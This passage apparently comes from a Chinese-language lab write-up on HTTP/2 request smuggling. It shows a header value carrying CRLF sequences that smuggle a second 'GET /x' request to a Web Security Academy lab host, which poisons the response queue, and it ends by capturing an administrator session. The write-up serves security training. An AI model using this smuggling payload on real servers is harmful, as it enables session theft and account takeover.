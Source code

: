 [![](assets/1705287960-530726b869127814c97350fc14bf7a90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104527-7a352eb0-b02b-1.png)  
随后使用"Inspector"在请求的末尾加入一个任意的头信息

```plain
#Name
foo

#Value
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```

[![](assets/1705287960-441b4f3c14731618d29807f693b2caa3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104547-8601e184-b02b-1.png)  
随后发送请求，前端服务器在降级期间会将\\r\\n\\r\\n附加到标头的末尾，而这实际上会将走私的前缀转换为完整的请求，从而毒化响应队列

[![](assets/1705287960-f50f63c6d17d60d192b52397eb36e030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104558-8cf175ae-b02b-1.png)  
随后我们可以捕获到administrator的Session
